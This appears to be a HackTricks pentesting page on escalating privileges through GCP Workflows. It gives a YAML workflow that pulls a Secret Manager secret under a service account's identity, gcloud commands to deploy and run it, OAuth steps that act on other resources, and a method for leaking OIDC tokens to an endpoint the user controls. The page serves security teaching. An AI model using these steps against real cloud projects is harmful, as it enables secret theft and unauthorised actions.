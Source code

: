 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

Basic Information:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik it's not possible to get a shell with access to the metadata endpoint containing the SA credentials of the SA attacked to a Workflow. However, it's possible to abuse the permissions of the SA by adding the actions to perform inside the Workflow.

It's possible to find the documentation of the connectors. For example, this is the [**page of the Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In the side bar it's possible to find several other connectors.

And here you can find an example of a connector that prints a secret:

```yaml
main:
  params: [input]
  steps:
    - access_string_secret:
        call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
        args:
          secret_id: secret_name
          version: 1
          project_id: project-id
        result: str_secret
    - returnOutput:
        return: "${str_secret}"
```

Update from the CLI:

```bash
gcloud workflows deploy <workflow-name> \
    --service-account=email@SA \
    --source=/path/to/config.yaml \
    --location us-central1
```

If you get an error like `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, just **wait a minute and try again**.

If you don't have web access it's possible to trigger and see the execution of a Workflow with:

```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```

> [!CAUTION]
> You can also check the output of previous executions to look for sensitive information

Note that even if you get an error like `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` because you don't have that permission, the workflow has been generated.

### Leak OIDC token (and OAuth?)

According [**to the docs**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) it's possible to use workflow steps that will send an HTTP request with the OAuth or OIDC token. However, just like in the case of [Cloud Scheduler](gcp-cloudscheduler-privesc.md), the HTTP request with the Oauth token must be to the host `.googleapis.com`.

> [!CAUTION]
> Therefore, it's **possible to leak the OIDC token by indicating a HTTP endpoint** controlled by the user but to leak the **OAuth** token you would **need a bypass** for that protection. However, you are still able to **contact any GCP api to perform actions on behalf the SA** using either connectors or HTTP requests with the OAuth token.

#### Oauth

```yaml
    - step_A:
      call: http.post
      args:
          url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
          auth:
              type: OAuth2
              scopes: OAUTH_SCOPE
```

#### OIDC

```yaml
    - step_A:
      call: http.get
      args:
          url: https://us-central1-project.cloudfunctions.net/functionA
          query:
              firstNumber: 4
              secondNumber: 6
              operation: sum
          auth:
              type: OIDC
              audience: OIDC_AUDIENCE
```

### `workflows.workflows.update` ...

With this permission instead of `workflows.workflows.create` it's possible to update an already existing workflow and perform the same attacks.

{{#include ../../../banners/hacktricks-training.md}}





